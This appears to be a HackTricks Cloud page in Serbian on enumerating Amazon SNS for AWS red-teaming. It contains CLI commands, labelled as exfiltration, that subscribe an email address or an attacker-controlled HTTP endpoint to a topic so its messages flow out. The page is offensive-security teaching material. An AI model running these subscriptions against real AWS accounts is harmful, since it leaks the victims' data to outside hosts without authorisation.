 # AWS - SNS Enum

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJSTVO**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodiču PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## SNS

Amazon Simple Notification Service (Amazon SNS) opisan je kao **potpuno upravljana usluga za slanje poruka**. Podržava i **aplikacija-aplikacija** (A2A) i **aplikacija-osoba** (A2P) tipove komunikacije.

Ključne karakteristike za A2A komunikaciju uključuju **mehanizme objavljivanja/pretplate (pub/sub)**. Ovi mehanizmi uvode **teme**, ključne za omogućavanje visokog protoka, **push-bazirane, mnogo-za-mnogo komunikacije**. Ova funkcija je veoma korisna u scenarijima koji uključuju distribuirane sisteme, mikroservise i arhitekture serverless događajima vođene događajima. Korišćenjem ovih tema, sistemi koji objavljuju poruke mogu efikasno distribuirati poruke na **širok spektar sistema pretplatnika**, olakšavajući šablone fanout poruka.

### **Razlika u odnosu na SQS**

**SQS** je usluga zasnovana na **redovima** koja omogućava komunikaciju tačka-do-tačka, osiguravajući da poruke obradi **jedan potrošač**. Nudi **isporuku barem jednom**, podržava standardne i FIFO redove, i omogućava zadržavanje poruka za ponovne pokušaje i odloženu obradu.\
S druge strane, **SNS** je usluga zasnovana na **objavljivanju/pretplati**, omogućavajući **jedan-na-mnogo** komunikaciju emitovanjem poruka **više pretplatnika** istovremeno. Podržava **različite krajnje tačke pretplate poput e-pošte, SMS-a, Lambda funkcija i HTTP/HTTPS**, i pruža mehanizme filtriranja za ciljanu isporuku poruka.\
Iako obe usluge omogućavaju razdvajanje komponenti u distribuiranim sistemima, SQS se fokusira na redovnu komunikaciju, a SNS naglašava obrasce komunikacije fan-out vođene događajima.

### **Enumeracija**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Imajte na umu da ako je **tema tipa FIFO**, samo pretplatnici koji koriste protokol **SQS** mogu biti korišćeni (HTTP ili HTTPS ne mogu biti korišćeni).

Takođe, čak i ako `--topic-arn` sadrži region, pobrinite se da navedete tačan region u **`--region`** ili ćete dobiti grešku koja izgleda kao da nemate pristup, ali je zapravo problem u regionu.
{% endhint %}

#### Neautentifikovan pristup

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Eskalacija privilegija

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Post eksploatacija

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Upornost

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Reference

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
